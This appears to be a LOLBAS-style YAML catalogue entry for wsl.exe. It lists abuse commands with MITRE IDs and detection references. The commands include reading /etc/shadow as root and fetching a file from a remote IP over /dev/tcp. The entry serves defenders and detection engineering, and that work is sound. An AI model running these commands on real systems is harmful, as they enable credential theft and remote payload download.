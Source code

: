 ```yaml
---
Name: Wsl.exe
Description: Windows subsystem for Linux executable
Author: Matthew Brown
Created: 2019-06-27
Commands:
  - Command: wsl.exe -e /mnt/c/Windows/System32/calc.exe
    Description: Executes calc.exe from wsl.exe
    Usecase: Performs execution of specified file, can be used to execute arbitrary Linux commands.
    Category: Execute
    Privileges: User
    MitreID: T1202
    OperatingSystem: Windows 10, Windows Server 2019, Windows 11
    Tags:
      - Execute: EXE
  - Command: wsl.exe -u root -e cat /etc/shadow
    Description: Cats /etc/shadow file as root
    Usecase: Performs execution of arbitrary Linux commands as root without need for password.
    Category: Execute
    Privileges: User
    MitreID: T1202
    OperatingSystem: Windows 10, Windows Server 2019, Windows 11
    Tags:
      - Execute: CMD
  - Command: wsl.exe --exec bash -c "{command}"
    Description: Executes Linux command (for example via bash) as the default user (unless stated otherwise using `-u <username>`) on the default WSL distro (unless stated otherwise using `-d <distro name>`)
    Usecase: Performs execution of arbitrary Linux commands.
    Category: Execute
    Privileges: User
    MitreID: T1202
    OperatingSystem: Windows 10, Windows Server 2019, Windows 11
    Tags:
      - Execute: CMD
  - Command: wsl.exe --exec bash -c 'cat < /dev/tcp/192.168.1.10/54 > binary'
    Description: Downloads file from 192.168.1.10
    Usecase: Download file
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows 10, Windows Server 2019, Windows 11
Full_Path:
  - Path: C:\Windows\System32\wsl.exe
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/683b63f8184b93c9564c4310d10c571cbe367e1e/rules/windows/process_creation/proc_creation_win_wsl_lolbin_execution.yml
  - BlockRule: https://docs.microsoft.com/en-us/windows/security/threat-protection/windows-defender-application-control/microsoft-recommended-block-rules
  - IOC: Child process from wsl.exe
Resources:
  - Link: https://docs.microsoft.com/en-us/windows/security/threat-protection/windows-defender-application-control/microsoft-recommended-block-rules
  - Link: https://twitter.com/nas_bench/status/1535431474429808642
Acknowledgement:
  - Person: Alex Ionescu
    Handle: '@aionescu'
  - Person: Matt
    Handle: '@NotoriousRebel1'
  - Person: Asif Matadar
    Handle: '@d1r4c'
  - Person: Nasreddine Bencherchali
    Handle: '@nas_bench'
  - Person: Konrad 'unrooted' Klawikowski
---
```

